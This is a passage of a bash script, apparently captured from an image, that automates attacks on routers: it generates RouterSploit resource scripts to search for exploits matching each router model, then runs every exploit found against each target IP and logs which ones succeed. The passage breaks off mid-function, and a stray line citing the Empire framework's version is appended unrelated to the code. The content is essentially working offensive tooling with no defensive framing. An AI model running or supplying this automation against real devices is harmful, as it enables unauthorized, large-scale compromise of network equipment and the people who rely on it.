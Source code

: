 ```bash
    # Process each identified router
    while IFS= read -r line; do
        IP=$(echo "$line" | cut -d' ' -f1)
        MODEL=$(echo "$line" | cut -d' ' -f2-)
        
        log_message "Checking $IP ($MODEL) for vulnerabilities"
        
        # Create resource script for vulnerability check
        cat > "$OUTPUT_DIR/vuln_check_${IP}.rsf" << EOF
search $(echo "$MODEL" | tr -d '()/[]:' | awk '{print $1}')
exit
EOF
        
        # Run vulnerability check
        cd "$ROUTERSPLOIT_PATH"
        python3 rsf.py -r "$OUTPUT_DIR/vuln_check_${IP}.rsf" | tee "$OUTPUT_DIR/vulnerabilities_${IP}.txt"
        
        # Extract potential exploits
        grep -E "exploits/.*" "$OUTPUT_DIR/vulnerabilities_${IP}.txt" > "$OUTPUT_DIR/exploits_${IP}.txt"
        
        if [ -s "$OUTPUT_DIR/exploits_${IP}.txt" ]; then
            log_message "Found $(wc -l < "$OUTPUT_DIR/exploits_${IP}.txt") potential exploits for $IP"
        else
            log_message "No known exploits found for $IP"
        fi
    done < "$OUTPUT_DIR/identified_routers.txt"
}

# Function to attempt exploitation
exploit_routers() {
    log_message "Attempting exploitation of vulnerable routers..."
    
    # Process each router with identified exploits
    for EXPLOIT_FILE in "$OUTPUT_DIR"/exploits_*.txt; do
        if [ ! -s "$EXPLOIT_FILE" ]; then
            continue
        fi
        
        IP=$(echo "$EXPLOIT_FILE" | sed "s|$OUTPUT_DIR/exploits_\(.*\)\.txt|\1|")
        
        # Process each exploit for this router
        while IFS= read -r EXPLOIT; do
            log_message "Attempting $EXPLOIT against $IP"
            
            # Create resource script for exploitation
            cat > "$OUTPUT_DIR/exploit_${IP}_$(echo "$EXPLOIT" | tr '/' '_').rsf" << EOF
use $EXPLOIT
set target http://$IP
run
exit
EOF
            
            # Run exploit
            cd "$ROUTERSPLOIT_PATH"
            python3 rsf.py -r "$OUTPUT_DIR/exploit_${IP}_$(echo "$EXPLOIT" | tr '/' '_').rsf" | tee -a "$OUTPUT_DIR/exploitation_results.txt"
            
            # Check if exploitation was successful
            if grep -q "\[+\] Target is vulnerable" "$OUTPUT_DIR/exploitation_results.txt"; then
                log_message "SUCCESS: $IP is vulnerable to $EXPLOIT"
```

 [Version]: 4.6.0 BC Security | [Web]: https://github.com/BC-SECURITY/Empire